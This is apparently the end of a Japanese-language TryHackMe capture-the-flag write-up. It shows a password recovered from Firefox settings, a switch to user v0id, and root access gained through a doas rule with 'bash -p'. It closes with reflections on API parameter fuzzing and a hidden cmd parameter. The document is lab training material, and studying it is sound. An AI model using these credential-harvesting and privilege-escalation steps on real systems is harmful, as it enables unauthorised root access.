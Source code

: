 Firefoxの設定画面からパスワードを確認できた。

v0id へ昇格。

```shell
user@ubuntu:~$ su v0id
Password: 
v0id@ubuntu:/home/user$ 
```

```shell
v0id@ubuntu:/home/user$ doas -u root bash -p
Password: 
root@ubuntu:/home/user# 
```

```shell
root@ubuntu:/home/user# cat /root/root.txt
THM{...................}
```


## 振り返り

- APIエンドポイントで、メソッドを変更したうえでパラメータをファジングするという発想はなかった。
- /api/items に cmd パラメータがあるとは常識的には考えられないが、この辺は機械的に調べる心構えも必要。
- Firefox でプロフィールを読む方法を学べてよかった。
- doas は初見。SUIDがついているのには気づいていたが、user と v0id に与えられる権限の違いが分からなかった。下記のファイルを見れば v0id への昇格が必要だと判断できた。

```shell
root@ubuntu:/home/user# cat /usr/local/etc/doas.conf
permit v0id as root
root@ubuntu:/home/user# ls -al /usr/local/etc/doas.conf
-rw-r--r-- 1 root root 20 Jan 15  2021 /usr/local/etc/doas.conf
```
